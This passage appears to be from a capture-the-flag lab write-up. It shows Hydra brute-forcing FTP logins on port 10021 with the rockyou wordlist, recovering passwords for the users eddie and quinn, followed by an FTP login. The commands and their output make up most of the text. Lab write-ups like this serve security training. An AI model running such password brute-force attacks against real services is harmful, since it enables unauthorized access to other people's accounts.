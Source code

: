 ```bash
└─$ hydra -l eddie -P /usr/share/wordlists/rockyou.txt ftp://10.10.188.66:10021
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-19 17:19:45
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.188.66:10021/
y[10021][ftp] host: 10.10.188.66   login: eddie   password: jordan
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-19 17:20:08
```


Okay we have credentials for `eddie`: 

`eddie:jordan`

Lets try to connect: 

```bash

└─$ ftp 10.10.154.154 10021
Connected to 10.10.154.154.
220 (vsFTPd 3.0.5)
Name (10.10.154.154:admin): eddie
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir

```

Okay it seems that the directory is empty. Lets try to bruteforce the user `quinn? :

```bash

└─$ hydra -l quinn -P /usr/share/wordlists/rockyou.txt ftp://10.10.154.154:10021
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-19 18:24:15
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.154.154:10021/
[10021][ftp] host: 10.10.154.154   login: quinn   password: andrea
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-19 18:24:26

```
